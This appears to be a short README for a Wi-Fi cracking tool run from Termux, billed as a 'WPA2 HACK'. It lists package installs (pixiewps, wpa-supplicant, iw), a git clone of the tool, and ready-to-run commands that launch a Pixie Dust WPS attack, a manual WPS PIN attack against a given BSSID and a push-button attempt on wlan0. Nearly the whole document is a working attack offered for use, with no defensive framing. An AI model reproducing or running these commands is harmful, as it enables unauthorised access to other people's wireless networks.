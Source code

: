 # Wi-Fi PassWord only WPA2 HACK

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

pkg install pip

# installing Tool ComMand

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan0 -K

# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234

sudo python3 ps.py -i wlan0 --pbc
